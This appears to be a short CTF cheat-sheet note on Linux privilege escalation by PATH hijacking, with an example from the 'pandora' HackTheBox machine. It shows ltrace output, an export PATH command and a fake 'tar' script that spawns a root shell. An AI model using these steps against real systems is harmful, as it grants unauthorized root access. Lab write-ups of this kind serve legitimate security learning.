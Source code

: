 Run the program with `ltrace` see if something fails, or if it's trying to access files which the user has no access to.

If the program opens a file based on the `PATH` environment variable, check if it can be modified.
If it can be, move into a directory which the user can operate under and add it to `$PATH`

## Example (from pandora HTB)
This example can be modified and used for other cases.

- Find the vulnerability
    ```bash
    # Run program with ltrace
    ltrace program

    ## Look for permission errors
    ### No access to /root/file
    system("tar -cvf /root/file"...tar: /root/file.tar.gz: Cannot open: Permission denied
    ```
    `system` calls tar without full path, therefore it will use PATH to look for valid files.

- Find a good directory and edit $PATH
    ```bash
    export PATH=<DIR>:$PATH
    ```

- Add file 
    ```bash
    # Make tar file in <DIR> folder specified above
    vim tar

    # In vim

    #!/bin/bash
    bash
    ```
Once the original program executes in the directory, it will run our tar program and spawn a root shell.